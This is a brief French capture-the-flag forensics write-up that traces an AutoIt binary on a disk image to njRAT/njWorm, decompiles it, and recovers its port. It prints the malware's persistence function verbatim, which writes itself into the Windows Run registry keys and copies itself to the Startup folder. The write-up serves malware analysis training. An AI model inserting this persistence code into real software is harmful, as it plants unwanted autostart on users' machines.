

# Solution

WU rapide écrit par ribt :
- on  monte la 2e partition de l'image et récupère `C/Users/operator/AppData/Roaming/aL4N.exe` (j'ai triché mais en passant des YARA sur le FS on devrait tomber dessus) -> gros score VT
- c'est du AutoIT qu'on peut décompiler avec https://github.com/nazywam/AutoIt-Ripper/, on récupère [script.au3](./script.au3)
-  on retrouve beaucoup de bout de code sur https://github.com/mwsrc/njRAT/blob/master/njWorm/src.txt.au3
- on voit la fonction de persistence :
```
Func INS ( )
	If RegRead ( "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" , $EXE ) <> ChrW ( 34 ) & @AutoItExe & ChrW ( 34 ) Then
		RegWrite ( "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" , $EXE , "REG_SZ" , ChrW ( 34 ) & @AutoItExe & ChrW ( 34 ) )
	EndIf
	If RegRead ( "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" , $EXE ) <> ChrW ( 34 ) & @AutoItExe & ChrW ( 34 ) Then
		RegWrite ( "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" , $EXE , "REG_SZ" , ChrW ( 34 ) & @AutoItExe & ChrW ( 34 ) )
	EndIf
	If FileExists ( @StartupDir & "\" & $EXE ) = False Then
		FileCopy ( @AutoItExe , @StartupDir & "\" & $EXE , 1 )
	EndIf
	If @error Then
	EndIf
EndFunc
```
- On trouve la technique en copiant le path dans Google : 



- On retrouve facilement le port : `Local $PORT = 1245`
